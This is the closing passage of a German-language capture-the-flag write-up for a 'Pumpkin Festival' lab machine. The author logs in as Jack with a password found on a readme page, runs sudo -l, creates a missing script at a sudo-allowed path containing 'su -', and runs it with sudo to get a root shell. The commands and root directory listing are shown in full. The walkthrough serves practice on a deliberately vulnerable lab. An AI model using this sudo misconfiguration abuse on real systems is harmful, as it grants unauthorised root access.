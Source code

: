 Nicht schlecht, das war ein sehr gut verstecktes Token Nummer 10!

Da ich aus der Seite http://pumpkins.local/readme.html Jacks Passwort bekommen habe, habe ich `sudo -l` ausprobiert. Vielleicht darf er ja etwas als root ausführen.

![Image](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinFestival-Screenshot-18.png)

Weder das Verzeichnis, noch die Datei haben zu diesem Zeitpunkt existiert, ich habe also freie Hand, was ich dort erstelle.

Aufgrund der fortgeschrittenen Uhrzeit und dem in der Luft liegenden Duft einer Root-Shell war ich hier recht unkreativ:

````
jack@pumpkin:~$ mkdir pumpkins
jack@pumpkin:~$ cd pumpkins/
jack@pumpkin:~/pumpkins$ nano alohomora
jack@pumpkin:~/pumpkins$ cat alohomora 
#!/bin/sh
echo "Alohomora!"
su -
jack@pumpkin:~/pumpkins$ chmod +x alohomora
jack@pumpkin:~/pumpkins$ sudo ./alohomora 
Alohomora!
root@pumpkin:~# 
````

## Root-Shell :)

Sich das Ticket zu sichern war jetzt ein Kinderspiel.

Interessant finde ich, dass ich am Ende nicht eins der Token gebraucht habe. Aber sehr zufriedenstellend, dass ich alle gefunden habe!

````
root@pumpkin:~# cd /root/
root@pumpkin:~# ls -la
total 36
drwx------  3 root root 4096 Jul 16  2019 .
drwxr-xr-x 22 root root 4096 Jul 12  2019 ..
-rw-r--r--  1 root root   55 Jul 15  2019 .bash_logout
-rw-r--r--  1 root root 3106 Feb 20  2014 .bashrc
drwx------  2 root root 4096 Jul 12  2019 .cache
-rw-------  1 root root  369 Jul 13  2019 .mysql_history
-rw-------  1 root root   89 Jul 16  2019 .nano_history
-rw-r--r--  1 root root  140 Feb 20  2014 .profile
-rw-r--r--  1 root root 1688 Jul 15  2019 PumpkinFestival_Ticket
````
![Image](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinFestival-Screenshot-20.png)

Die Serie hat mir sehr gefallen und war an einigen Stellen schön knifflig! 
Kann uneingeschränkt weiterempfohlen werden! :)

Danke für's Lesen und happy pwning!

Kontakt -> [Twitter](https://twitter.com/_the_someone)
